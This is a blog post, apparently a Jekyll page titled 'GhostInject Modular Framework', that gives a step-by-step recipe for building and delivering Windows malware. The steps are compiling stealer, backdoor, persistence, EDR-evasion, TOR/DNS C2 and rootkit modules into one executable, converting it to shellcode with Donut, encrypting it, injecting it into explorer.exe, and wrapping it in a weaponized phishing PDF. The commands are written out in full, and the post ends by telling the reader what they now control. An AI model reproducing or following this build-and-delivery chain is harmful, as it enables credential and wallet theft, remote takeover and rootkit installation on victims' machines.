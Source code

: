 ```yaml
---
layout: default
title: "GhostInject Modular Framework"
date: 2025-05-03 12:00:00 +0000
permalink: /2025/05/03/ghostinject.html
categories: announcement
---
```




# How Malware Works — Modular Malware Build System (Ghost Inject Chain)

This is your  **end-to-end ATP-grade modular build system** , where each layer of the malware is designed to  **operate in memory** ,  **evade EDRs** , and  **maintain OPSEC with layered encryption and injection** .

---

## ⚙️ Step 1: Design Your Modular Core

The `stealer/` directory holds all modules compiled into one final malware EXE.

```
stealer/
├── stealer.c       # Core logic — wallet drainer, browser stealer, clipwatcher
├── backdoor.c      # Reverse shell, TOR beacon, DNS callback
├── persistence.c   # WMI Timer, RunKey, Task Scheduler, DLL hijack
├── evasion.c       # AMSI bypass, ETW patch, syscall mapping, unhookers
├── c2.c            # DNS-over-TOR beacon logic, fallback IP rotation
├── injector.c      # Elevation logic, drops + loads vulnerable driver
├── rootkit.sys     # Kernel-mode stealth payload (SSDT hooks, hide files/processes)
```

✅ These are **linked into a single standalone payload** that can self-operate in memory.

---

## 🔨 Step 2: Compile Modular Payload → `loader.exe`

```bash
x86_64-w64-mingw32-gcc stealer.c backdoor.c persistence.c evasion.c c2.c injector.c -o loader.exe -static
```

💡 This produces a **standalone EXE** with all modules embedded. **Stealth-resident.**

---

## 🍡 Step 3: Convert EXE → Shellcode with Donut

```bash
donut.exe loader.exe -o loader.bin
```

* `loader.bin` is now  **Donut shellcode format** , suitable for raw memory injection
* Executes  **in memory** , bypassing disk-based AV/EDR

---

## 🔐 Step 4: Encrypt with CryptexX

```bash
CryptexX.exe loader.bin -o cryptexx.enc -p "UltraKey123!" -bind -hwid -window
```

This adds:

* **AES+XOR dual-layer encryption**
* **HWID locking** (only runs on target machine)
* **Time window** (expire after X days)
* **Loader hash binding** (anti-repacker)

Result: `cryptexx.enc` — fully encrypted + metadata-wrapped payload.

---

## 👻 Step 5: Stub Creation with GhostInject

```bash
GhostStubBuilder.exe cryptexx.enc UltraKey123! explorer.exe -o GhostInject.exe
```

* Creates a **RAM-only loader**
* Injects into **explorer.exe** using **direct syscalls**
* Executes **decrypted shellcode** in memory
* Leaves **zero disk trace**

✅ `GhostInject.exe` is your  **memory-only ATP loader** .

---

## 💣 Step 6: Weaponized Dropper Creation

```bash
python3 dropper.py --input GhostInject.exe --output payload.pdf --template clean_decoy.pdf
```

* Wraps `GhostInject.exe` into **PDF or Office file**
* Uses **macro, JS, or CVE-based exploits**
* Drops and executes  **in memory** , loads CryptexX payload

✅ `payload.pdf` = weaponized phishing file.

---

## 🧼 Malware Execution Chain Summary

```
User opens ➔ payload.pdf
         ➔ Dropper activates
         ➔ Drops GhostInject (RAM-only)
         ➔ GhostInject decrypts cryptexx.enc
         ➔ Donut loader.bin is injected into explorer.exe
         ➔ explorer.exe now runs:
             ├─ stealer.c         (wallets, creds)
             ├─ backdoor.c        (reverse shell)
             ├─ persistence.c     (startup stealth)
             ├─ evasion.c         (AMSI, ETW bypass)
             ├─ c2.c              (exfil via DNS/TOR)
             └─ injector.c        (if admin: drop + map rootkit)
                                  ├─ driver.sys     (signed vuln driver: RTCore64, GDRV)
                                  └─ rootkit.sys    (loaded into kernel memory)
```

---

## ✅ Final Output Map

| Stage             | File                | Description                         |
| ----------------- | ------------------- | ----------------------------------- |
| Build             | `loader.exe`      | Combined malware logic EXE          |
| Shellcode         | `loader.bin`      | Donut shellcode format              |
| Encrypted Payload | `cryptexx.enc`    | AES+XOR+metadata+HWID locked blob   |
| Memory Loader     | `GhostInject.exe` | RAM-only syscall injector           |
| Delivery File     | `payload.pdf`     | Weaponized phishing delivery        |
| Rootkit Payload   | `rootkit.sys`     | Kernel-mode SSDT hooker/AV killer   |
| Signed Driver     | `driver.sys`      | Vulnerable signed driver for loader |

---

## 🔥 You Now Control:

* Modular credential + wallet stealer
* Full remote access via backdoor
* Memory-only loader chain (zero disk trail)
* Kernel-mode rootkit injection (Ring 0)
* TOR/DNS exfil with fallback rotation
* HWID-bound encryption with time kill-switch

---
